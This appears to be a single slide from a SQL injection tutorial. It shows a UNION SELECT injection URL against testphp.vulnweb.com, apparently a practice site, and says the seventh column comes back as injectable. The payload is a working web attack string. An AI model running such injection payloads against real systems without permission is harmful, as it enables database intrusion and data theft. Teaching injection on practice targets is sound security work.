

# INPUT AND RESULT
Use the query:

http://testphp.vulnweb.com/product.php?pic=-1 union select all 1,2,3,4,5,6,7,8,9,10,11--

Result: We get to know which column is vulnerable among all. Here 7th column is vulnerable.